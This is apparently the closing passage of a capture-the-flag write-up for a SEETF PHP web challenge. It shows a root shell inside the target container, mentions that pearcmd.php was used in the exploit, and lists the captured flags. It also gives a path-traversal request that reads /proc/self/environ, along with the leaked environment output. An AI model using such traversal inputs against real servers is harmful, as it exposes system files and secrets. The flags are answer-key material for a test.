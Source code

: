 ```
./usr/local/lib/php/test/XML_Util/tests/Bug4950Tests.php
./usr/local/lib/php/test/XML_Util/tests/CreateStartElementTests.php
./usr/local/lib/php/test/XML_Util/tests/ReverseEntitiesTests.php
./usr/local/lib/php/test/XML_Util/tests/SplitQualifiedNameTests.php
./usr/local/lib/php/test/XML_Util/tests/CreateCommentTests.php
./usr/local/lib/php/test/XML_Util/tests/CreateEndElementTests.php
./usr/local/lib/php/test/XML_Util/tests/Bug18343Tests.php
./usr/local/lib/php/test/XML_Util/tests/ReplaceEntitiesTests.php
./usr/local/lib/php/test/XML_Util/tests/CollapseEmptyTagsTests.php
./usr/local/lib/php/test/Structures_Graph/tests/AcyclicTestTest.php
./usr/local/lib/php/test/Structures_Graph/tests/TopologicalSorterTest.php
./usr/local/lib/php/test/Structures_Graph/tests/AllTests.php
./usr/local/lib/php/test/Structures_Graph/tests/BasicGraphTest.php
./usr/local/lib/php/pearcmd.php
./usr/local/lib/php/peclcmd.php
./usr/local/lib/php/build/gen_stub.php
./usr/local/lib/php/build/run-tests.php
./usr/local/lib/php/System.php
./usr/local/lib/php/PEAR.php
root@f869105b6e8b:/# 
```

We could locate the file we used in the exploit.

```bash
root@f869105b6e8b:/usr/local/lib/php# ls
Archive  Console  OS  PEAR  PEAR.php  Structures  System.php  XML  build  data  doc  extensions  pearcmd.php  peclcmd.php  test
root@f869105b6e8b:/usr/local/lib/php# 
```

This challenge taught me to look deeper, look at all parts of the infrastructure, instead of just being focused on specific techniques.

## Flags

```
SEE{2nd_fl4g_n33ds_RCE_g00d_luck_h4x0r}
SEE{l0l_s0urc3_w0uldn't_h4v3_h3lp3d_th1s_1s_d3fault_PHP_d0cker}
```

# Others


```
view-source:http://sourcelessguessyweb.chall.seetf.sg:1337/?page=../../../proc/self/environ

let message = `

KUBERNETES_SERVICE_PORT_HTTPS=443KUBERNETES_SERVICE_PORT=443HOSTNAME=app-6799f56885-p78l5PHP_VERSION=8.1.6APACHE_CONFDIR=/etc/apache2PHP_INI_DIR=/usr/local/etc/phpGPG_KEYS=528995BFEDFBA7191D46839EF9BA0ADA31CBD89E 39B641343D8C104B2B146DC3F9C39DC0B9698544 F1F692238FBC1666E5A5CCD4199F9DFEF6FFBAFDPHP_LDFLAGS=-Wl,-O1 -piePWD=/var/www/htmlAPACHE_LOG_DIR=/var/log/apache2LANG=CKUBERNETES_PORT_443_TCP=tcp://10.44.0.1:443PHP_SHA256=da38d65bb0d5dd56f711cd478204f2b62a74a2c2b0d2d523a78d6eb865b2364cAPACHE_PID_FILE=/var/run/apache2/apache2.pidPHPIZE_DEPS=autoconf dpkg-dev file g++ gcc libc-dev make pkg-config re2cPHP_URL=https://www.php.net/distributions/php-8.1.6.tar.xzAPACHE_RUN_GROUP=www-dataAPACHE_LOCK_DIR=/var/lock/apache2SHLVL=0KUBERNETES_PORT_443_TCP_PROTO=tcpPHP_CFLAGS=-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64KUBERNETES_PORT_443_TCP_ADDR=10.44.0.1APACHE_RUN_DIR=/var/run/apache2APACHE_ENVVARS=/etc/apache2/envvarsKUBERNETES_SERVICE_HOST=10.44.0.1KUBERNETES_PORT=tcp://10.44.0.1:443KUBERNETES_PORT_443_TCP_PORT=443APACHE_RUN_USER=www-dataPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binPHP_ASC_URL=https://www.php.net/distributions/php-8.1.6.tar.xz.ascPHP_CPPFLAGS=-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64 `.replace(/[^A-Za-z0-9!?]/g, ' ').trim();
```
